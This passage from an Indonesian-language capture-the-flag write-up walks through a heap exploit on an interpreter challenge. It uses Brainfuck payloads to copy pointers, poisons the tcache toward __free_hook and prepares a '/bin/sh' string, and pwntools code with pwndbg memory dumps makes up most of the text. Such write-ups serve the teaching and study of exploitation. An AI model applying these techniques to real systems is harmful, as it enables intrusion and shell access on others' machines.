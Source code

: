 ```py
# 000055555575b310     fdfd52525272b26d fdfdfdfdfdfdfdfd
# 000055555575b320     0000000000000000 0000000000000000
# 000055555575b330     0000000000000000 0000000000000000
```

next step, tcache poisoning perlu bisa tulis pointer. Dengan input yang terbatas ini, ada cara yang lebih baik untuk menulis pointer dibandingkan dengan menambahkan isi cell secara manual, yakni copy value dari cell lain. Chunk yang dapat dikontrol sekarang adalah bagian `.prog`, artinya kita bisa menambahkan arbitrary data melalui input. value yang akan dicopy adalah `__free_hook`,

```py
payload  = '[>---]'
payload += '<+++' * 8 # perbaiki cell src, hancur sebelumnya karena [>---]
payload += '<[-]' * 8 # kosongin cell dest
payload += '>' * 8 # balik ke cell src
payload += '[-<<<<<<<<+>>>>>>>>]>' * 8 # copy value dari src ke dest cells
create(payload) # 3

payload  = p64(libc.sym['__free_hook'])
payload += p64(libc.sym['__free_hook'])
payload += p8(3) # unique val
create(payload) # 4

delete(4)
# pwndbg> dq 0x55555575b300
# 000055555575b300     0000000000000000 0000000000000261
# 000055555575b310     000055555575b570 00001555555238e8
# 000055555575b320     0000000000000003 0000000000000000
# 000055555575b330     0000000000000000 0000000000000000
run(3)
# pwndbg> dq 0x55555575b300
# 000055555575b300     fdfdfdfdfdfdfdfd fdfdfdfdfdfdff5e
# 000055555575b310     00001555555238e8 0000000000000000
# 000055555575b320     0000000000000000 0000000000000000
# 000055555575b330     0000000000000000 0000000000000000
# pwndbg> bins
# tcachebins
# 0x260 [  2]: 0x55555575b310 —▸ 0x1555555238e8 (__free_hook) ◂— 0x0
```

Oh, iya, sebelum `malloc` hancur karena tcache poisoning ini, lebih baik untuk menyiapkan `"/bin/sh"`.

```py
create('/bin/sh\x00') # 2

payload  = '[>---]'
payload += '<+++' * 8 # perbaiki cell src, hancur sebelumnya karena [>---]
payload += '<[-]' * 8 # kosongin cell dest
payload += '>' * 8 # balik ke cell src
payload += '[-<<<<<<<<+>>>>>>>>]>' * 8 # copy value dari src ke dest cells
create(payload) # 3

payload  = p64(libc.sym['__free_hook'])
payload += p64(libc.sym['__free_hook'])
payload += p8(3) # unique val
create(payload) # 4

delete(4)
run(3)
```

